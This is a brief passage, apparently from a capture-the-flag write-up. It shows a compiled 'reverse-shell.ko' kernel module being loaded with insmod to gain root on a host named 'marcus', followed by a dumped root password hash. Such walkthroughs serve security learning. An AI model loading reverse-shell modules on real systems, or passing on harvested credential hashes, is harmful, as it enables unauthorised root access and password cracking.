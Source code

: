 Now we insert our compiled kernel module with `insmod`

`insmod reverse-shell.ko`

And we have root in marcus
![Pasted image 20210717193039.png](/assets/Pasted%20image%2020210717193039.png)

# root hash
```
$6$vSJnzptH$pCoAuyngEc2pUm3Hos6qTNzopXdvnXACaAZEDAQU4VoBc19qxa9eASxv/EKnkTEOWWGyuPobtS/QA2kAFkrWP0
```